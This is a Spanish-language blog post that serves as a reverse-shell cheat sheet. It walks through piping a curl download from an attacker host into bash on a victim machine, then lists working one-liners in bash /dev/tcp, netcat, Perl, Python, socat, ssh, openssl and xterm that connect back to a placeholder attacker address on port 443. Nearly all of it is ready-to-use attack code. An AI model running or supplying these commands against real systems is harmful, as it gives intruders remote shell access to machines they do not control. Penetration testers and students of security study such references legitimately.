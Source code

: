 ```yaml
---
title: Revershell cheet sheat
description: "Revershell cheet sheat"
published: true
pubDate: "2024-06-01"
heroImage: /assets/posts1/revershell/revershell.jpg
---
```


- Primeramente debes tener ejecucion remota de comandos,
- luego verificar si hay curl  , lo haces con " which curl"
- luedo de la maquina atacante te abres un servidor http y creas un
- index.html:

    ```bash
     #!/bin/bash
     bash -i >& /dev/tcp/10.10.10.10/443 0>&1
    ```

- y te pones en escucha en la maquina atacante con:

 ```bash
     nc -nlvp 443 
    ```

- y ejecutas en la maquina victima lo siguiente

 ```bash
     curl 10.10.10.10 | bash
 ```

- obtendras una revershell(realizar tratamiento de la consola):

***********************
******MAS FORMAS*****
***********************

- Este comando usa netcat (nc) para establecer una conexión con el sistema atacante en la dirección IP especificada y
- el puerto 443, y ejecuta una shell inversa para permitir al sistema atacante ejecutar comandos en el sistema objetivo.

    ```bash
     nc -e /bin/sh X.X.X.X 443
    ```

- Este comando utiliza el intérprete de comandos "bash" y "redirecciones de descriptor de archivo" para establecer
- una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443.

 ```bash
 bash -i >& /dev/tcp/X.X.X.X/443 0>&1 
 ```

- Este comando utiliza el lenguaje de programación Perl y las funciones de socket para establecer una conexión
de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443.

 ```bash
     perl -e 'use Socket;$i="X.X.X.X";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
    ```

- Este comando utiliza el lenguaje de programación Python y las funciones de socket para establecer una conexión de
 "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443.

    ```
     python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("X.X.X.X",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
    ```

---

- Este comando utiliza el programa socat para establecer una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443.
- El comando crea un pseudo-TTY y lo conecta a través de un socket TCP.

    ```
     socat file:tty,raw,echo=0 tcp-connect:X.X.X.X:443 
    ```

- Este comando utiliza OpenSSH para establecer una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" a través del puerto 443.
- El comando habilita un tunel inverso (reverse tunnel) en el puerto 443 del sistema objetivo, que se conecta al puerto 443 del sistema atacante.

    ```
     ssh -R 443:localhost:443 user@X.X.X.X  
    ```

- Este comando utiliza el protocolo Telnet para establecer una conexión con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443, luego ejecuta un comando shell remotamente a través de esa conexión.

    ```
     telnet X.X.X.X 443
    ```

- Este comando utiliza pipes ( tuberías) y la herramienta netcat para establecer una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443.

    ```
     mknod backpipe p && nc X.X.X.X 443 0<backpipe | /bin/bash 1>backpipe
    ```

- Este comando utiliza el intérprete de comandos "bash" y redirecciones de descriptor de archivo para establecer una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443.

    ```
     /bin/bash -i > /dev/tcp/X.X.X.X/443 0<&1 2>&1
    ```

- Este comando utiliza la herramienta openssl para establecer una conexión SSL/TLS con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443, luego ejecuta un comando shell remotamente a través de esa conexión.

    ```
     openssl s_client -quiet -connect X.X.X.X:443
    ```

- Este comando utiliza redirecciones de descriptor de archivo y sockets TCP para establecer una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443.

    ```
     exec 5<>/dev/tcp/X.X.X.X/443
    ```

- Este comando utiliza xterm, una terminal gráfica para establecer una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" en el puerto TCP/IP predeterminado para XDMCP (X Display Manager Control Protocol).

    ```
     xterm -display X.X.X.X:0
    ```

